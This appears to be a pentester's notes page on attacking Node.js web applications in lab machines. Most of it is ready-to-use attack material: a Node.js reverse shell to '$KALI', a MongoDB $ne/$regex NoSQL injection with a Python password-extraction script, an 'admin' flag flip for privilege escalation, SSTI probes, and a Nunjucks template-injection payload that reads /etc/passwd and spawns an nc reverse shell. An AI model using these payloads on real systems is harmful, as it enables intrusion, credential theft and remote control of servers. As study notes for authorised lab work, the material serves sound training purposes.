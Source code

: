 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Enumeration

Capture url request in BurpSuite:

![[Pasted image 20220228102713.png]]
Take a look at /api/users

Take the list of users, and a short list of passwords, and attack the login request.

Look for something that would need elevated privilges, like /api/settings.

```
{"color-theme":"light","lang":"en","admin":false}
```

Change admin value to true:

```
{"color-theme":"dark","admin":true}
```


#### Node.js (Express middleware)
Below we're able to test this input box by adding 1 + 1
![[Pasted image 20220304092318.png]]

and seeing the result of "2".
![[Pasted image 20220304092332.png]]

Let's try something more complicated:

```node - kali
(function(){
   return 2+2;
})();
```

![[Pasted image 20220304092443.png]]

and we see this also works
![[Pasted image 20220304092547.png]]

```node - kali
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "$KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![[rlwrap]]

#### NodeBlog
Details on $ne
https://docs.mongodb.com/manual/reference/operator/query/ne/

```
http://$TARGET:5000/login
```

Capture in Burp, change Content-Type to json:

```BurpSuite - kali
Content-Type: application/json
```

Change the data body to json format:

```BurpSuite - kali
{"user":"admin","password":"admin"}
```

Send, notice we still get invalid password.  If we modify the username, we get invalid username, working as intended.

```BurpSuite - kali
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

```bash - kali
mousepad login.py
```

```python - kali
import requests
import json
import string
import sys


def login(pw):
	payload = '{ "$regex":"%s"}' % pw
	data = {"user":"admin", "password": json.loads(payload)}
	r=requests.post("http://$TARGET:5000/login",json=data)
	if "Invalid Password" in r.text:
		return False
	return True

password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f"\r{password}{i}")
		if login(f"{password}{i}"):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f"\r{password}\r\n")
				sys.stdout.flush()
				stop=True
				break
			break
```

#### Command injection

First, we notice how the our input for the newsletter is reflected back to us.

![[Pasted image 20221115132135.png]]

Test for command injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

![[Pasted image 20221115132357.png]]

Capture in Burp, send to repeater.

#### Node JS command Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

POC:
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

Final payload:
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@example.domain"
}
```

![[rlwrap]]

Reverse Shell
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f')\")()}}@example.domain"
}
```

#### package.json
If found, evaluate for vulnerable dependencies.  Maybe this is something we can combine with Dependency-Check?!

![[Pasted image 20220905142745.png]]






